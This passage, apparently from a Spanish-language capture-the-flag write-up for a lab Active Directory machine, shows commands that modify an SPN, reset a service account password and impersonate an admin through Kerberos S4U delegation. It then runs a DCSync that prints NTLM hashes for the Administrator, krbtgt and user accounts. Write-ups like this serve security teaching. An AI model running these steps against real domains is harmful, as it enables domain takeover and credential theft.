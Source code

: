 ~~~ bash
export KRB5CCNAME=C.Neri.ccache 

bloodyAD --host DC01.vintage.htb -d vintage.htb -k set object 'SVC_LDAP' servicePrincipalName -v 'cifs/incommatose'
[+] SVC_LDAP\'s servicePrincipalName has been updated
~~~

Cambiaremos la contraseña de la cuenta `svc_ldap` usando `kerberos` sobre el comando `net`

~~~ bash
net rpc password svc_ldap "newP@assword2022" -S dc01.vintage.htb --use-kerberos=required
~~~

Ahora solicitaremos un TGT para la cuenta `svc_ldap`, lo necesitaremos para impersonar al usuario `L.Bianchi_adm` mediante `kerberos`

~~~ bash
getTGT.py vintage.htb/svc_ldap:'newP@assword2022' -dc-ip 10.10.11.45
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_ldap.ccache
~~~

### S4U2Self/S4U2Proxy

Ahora obtendremos un Ticket Granting Service que nos permita autenticarnos como el usuario `L.Bianchi_adm`

~~~ bash
export KRB5CCNAME=svc_ldap.ccache

impacket-getST -k -no-pass -spn 'HTTP/DC01.vintage.htb' -impersonate 'L.Bianchi_adm' -dc-ip 10.10.11.45 'vintage.htb/svc_ldap'@DC01.vintage.htb 
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating L.Bianchi_adm
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in L.Bianchi_adm.ccache
~~~

> WinRM usa HTTP como su protocolo de transporte base porque es un protocolo basado en SOAP, (protocolo de acceso de objetos simples), su funcionalidad central se basa en el protocolo HTTP para la comunicación
{: .notice--danger}


## (Extra) DCSync

Además podemos extraer el NTDS de todos los usuarios del dominio para conectarnos como `Administrator` si nos da la gana (aunque está restringido). En otras palabras, solicitaremos recursos privilegiados al Domain Controller haciéndonos pasar por un DC

~~~ bash
export KRB5CCNAME=L.Bianchi_adm.ccache

secretsdump.py vintage.htb/l.bianchi_adm@DC01.vintage.htb -k -no-pass -just-dc-ntlm
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:be3d376d906753c7373b15ac460724d8:::
M.Rossi:1111:aad3b435b51404eeaad3b435b51404ee:8e5fc7685b7ae019a516c2515bbd310d:::
R.Verdi:1112:aad3b435b51404eeaad3b435b51404ee:42232fb11274c292ed84dcbcc200db57:::
L.Bianchi:1113:aad3b435b51404eeaad3b435b51404ee:de9f0e05b3eaa440b2842b8fe3449545:::
G.Viola:1114:aad3b435b51404eeaad3b435b51404ee:1d1c5d252941e889d2f3afdd7e0b53bf:::
~~~
